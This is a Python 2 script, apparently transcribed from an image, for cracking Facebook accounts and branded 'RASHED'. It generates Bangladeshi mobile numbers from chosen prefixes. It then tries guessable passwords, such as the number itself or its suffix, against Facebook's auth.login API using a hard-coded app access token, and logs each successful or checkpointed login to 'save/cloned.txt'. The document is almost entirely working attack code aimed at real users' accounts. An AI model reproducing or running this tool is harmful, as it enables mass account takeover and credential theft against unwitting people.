 def action():
    peak = raw_input('\n\033[1;95mRASHED CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "Enter any Bangladesh Mobile code Number"+'\n'
        print 'Enter any code  170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139,190,191,180,181,160,161'
        try:
            c = raw_input("\033[1;96mRASHED CHOOSE : ")
            k="+880"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;91m-'
    xxx = str(len(id))
    jalan ('\033[1;92m Total ids number: '+xxx)
    jalan ('\033[1;92mCode you choose: '+c)
    jalan ("\033[1;92mWait A While Rashed Start Cracking...")
    jalan ("\033[1;92mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;91m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(✓)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')